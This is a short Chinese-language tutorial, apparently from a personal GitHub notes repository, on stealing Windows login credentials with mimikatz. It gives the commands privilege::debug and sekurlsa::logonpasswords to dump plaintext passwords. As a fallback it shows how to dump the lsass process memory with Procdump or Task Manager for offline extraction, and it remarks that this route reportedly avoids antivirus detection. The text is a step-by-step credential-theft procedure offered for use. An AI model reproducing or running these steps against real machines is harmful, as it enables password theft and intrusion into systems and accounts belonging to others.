 # mimikatz

## 直接使用方法

下载地址：`https://github.com/gentilkiwi/mimikatz/releases`  
下载到windows机器中，运行该软件，输入如下图的两条命令即可完成密码抓取。  

1. 提升权限：privilege::debug
2. 抓取密码：sekurlsa::logonpasswords  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-1.png)

## 无法直接利用的情况

导出lsass进程离线读取密码。  

### 使用工具导出lsass文件

工具下载链接：这种方式导出lsass据说不会报毒  
`http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx`  
`https://github.com/1120362990/Paper/raw/master/tools/Procdump.zip`  

下载完成后运行如下命令即可导出 lsass.dmp 文件  
`Procdump.exe -accepteula -ma lsass.exe lsass.dmp`

### 在任务管理器中导出lsass文件

如下图点击即可导出lsass文件  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-2.png)

文件导出位置，导出后会显示  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-3.png)

在windows主机中运行如下命令，对导出的lsass文件进行分析即可得到明文密码  
![xx](https://raw.githubusercontent.com/1120362990/Paper/master/images/paper-mimikatz-4.png)
